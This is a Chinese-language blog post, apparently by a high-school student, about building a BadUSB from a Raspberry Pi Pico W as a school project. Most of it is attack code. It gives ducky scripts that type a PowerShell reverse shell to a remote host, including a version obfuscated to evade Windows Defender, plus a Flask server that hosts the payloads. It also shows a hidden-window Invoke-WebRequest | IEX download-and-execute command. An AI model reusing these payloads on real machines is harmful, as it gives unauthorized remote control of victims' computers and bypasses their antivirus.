




## 前言

在高三上因為課程的關係，所以我們需要在畢業前做一個專題，至於為什麼選擇 `BadUSB` 呢?其實是因為在參加那一年的 `HITCON Community` 官方有一個攤位是讓各位利用 `Badge` 當作 BadUSB 去開他們的電腦檔案
事後就去查了一下 `BadUSB` 延伸的其他攻擊，感覺蠻有趣的，而且當下也對於專題沒有其他想法，所以就決定來做 `BadUSB` ㄌ :D

## 開發板選擇

要做一個 BadUSB 其實有很多的開發板可以選擇，理論上支援 HID 就好了， 那我們為啥會特別選擇 `Raspberry Pi Pico W RP2040` 呢 ? ~~因為剛好我們科有然後加上我隊友跑去電子街買不到我原本要的 attiny 85~~。

## 前置設定

在做這個玩具ㄉ時候要先去 https://github.com/dbisu/pico-ducky 下載韌體(我也不太確定這樣叫對不對)，之後就照他的方式去做設定，接下來就可以開始想我們要如何寫整個 exploit chainㄌ 

## 製作

### Rick Roll

這是我拿來看 ducky script (BadUSB專用語言) 有哪些功能而寫出來ㄉ

```bash
REM Rick Roll with powershell 
DELAY 1000
GUI r # Winodws + R
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 500
STRING Start-Process "https://www.youtube.com/watch?v=dQw4w9WgXcQ" 
ENTER
```

主要的概念就是 `Windows + R` 開出 `Powershell`，然後用 `Start-Process` 去開一個 youtube 影片醬子

### RCE without obfuscation

接著就開始做主軸ㄌ，我在 https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library/remote_access 發現了可以用於 `RCE` 的 `script`，然後就對他做了點小修改

```bash
REM RCE without obfuscation
DELAY 1500
GUI r
DELAY 500
STRING powershell 
DELAY 250
ENTER
DELAY 1500
STRING $client = New-`oBJ`ECt System.Net.Sockets.TCPClient("ip",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i
DELAY 100
STRING  = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N`ew-O`BjEcT -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i`EX $data 2>&1 | out-st`Ri`Ng );$sendback2  = $sendback + "PS " + (P`wd).Path + "> ";$sendbyte =
DELAY 100
STRING  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
DELAY 100
ENTER
```

反正就是把他拆成好幾節來用就對ㄌ，但這樣會遇到 Windows Defender 在搞鬼的問題 = =



### RCE with Obfuscation

所以我就想到 [pwn2ooown](https://pwn2ooown.tech/) 大佬在成大資安社某個月的讀書會有講過怎麼繞過 `Windows Defender`，簡單來說就是可以用 `Code obfuscation` 去繞過 Defender，於是就從 https://github.com/danielbohannon/Invoke-Obfuscation 搞了一個經過混淆過後的 `payload`

```bash
DELAY 1500
GUI r
DELAY 500
STRING powershell
DELAY 250
ENTER

DELAY 200
STRING $c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("10.16.20.23",4444);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$
DELAY 100
STRING s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oU
DELAY 100
STRING t-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()
DELAY 100
```

然後就成功了:D





### RCE With Server

為了讓整個作案過程變得更簡單且不容易出錯，我決定架一個伺服器讓受害者下載腳本並執行，所以就用 `Flask` 寫了一個破破的網頁，然後將上面的那一些 `payload` 轉成 `.ps` 的形式

app.py:
```python
from flask import Flask

app = Flask(__name__)

@app.route("/")

def index():
    with open("payload.ps", "r") as f:
        result = f.read()
    return result

@app.route("/payload2")
def payload2():
    with open("payload2.ps", "r") as f:
        result = f.read()
    return result

app.run("0.0.0.0", port=80, debug = False)
```

payload1.ps:
```bash
$c=nEw-oBjECt SYstEm.NEt.SOcKEts.TCPClIEnt("ip",port);$s=$c.GetSTreAm();[byte[]]$b=0..65535|%{0};whILe(($i=$s.REad($b,0,$b.LeNgTh))-ne 0){;$d=(NEw-OBjeCT -TYpeNamE sYsTeM.TeXt.ASCIIEncoding).GetStRIng($b,0,$i);$z=(ieX $d 2>&1|oUt-STriNG);$x=$z+"RD "+(pwd)+"#";$y=([text.encoding]::ASCII).GEtByTEs($x);$s.WrIte($y,0,$y.LEnGTh);$s.FlUSh()};$c.CloSE()
```

payload2.ps:
```bash
$client = New-`oBJ`ECt System.Net.Sockets.TCPClient("ip",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (N`ew-O`BjEcT -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (i`EX $data 2>&1 | out-st`Ri`Ng );$sendback2  = $sendback + "PS " + (P`wd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

做好前置作業之後就開始研究怎麼讓他下載並且執行，也順便可以繞過他會卡在終端機這種尷尬事情



最後用 `Invoke-WebRequest` 去載腳本，然後用 `-WindowsStyle hidden` 去隱藏 `.ps` 的執行

```bash
WINDOWS r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 500
STRING Start-Process -FilePath "powershell.exe" -ArgumentList "-NoProfile -WindowStyle Hidden -Command `"(Invoke-WebRequest -Uri url).Content | IEX`"" -PassThru
ENTER
DELAY 1000
STRING exit
ENTER
```

成功ㄉ影片在這邊uWu [點我](https://www.youtube.com/shorts/39QhWCww4Y0)

## 踩雷 

在安裝韌體的過程中，出現了一個奇怪的事情，就是在裝好全部所需的東西時，他會因為 EPPROM 裡面的東西沒有被完全清除而閃退，會發生這樣的問題我猜是因為官方的安裝是專門 for pico 的，所以就去官往載了一個可以格式化的東東(flash_nuke) [flash_nuke](https://datasheets.raspberrypi.com/soft/flash_nuke.uf2)

## 結論

其實還蠻好玩的www，這個專題其實我只花了不到一個禮拜就完成了，這也間接導致我們這組，每次專題課在玩遊戲就是在玩遊戲的路上xDD，最後也有在老師的推薦下去比了校內的專題比賽，但是因為來評分的教授好像對於資安這方面沒有到很了解(?，所以最後只有拿一個佳作而已，ㄛ然後偷偷臭一下，血氧機那種幾百年前的爛梗居然可以拿優勝，說實話感覺心裡有點不舒服QQ。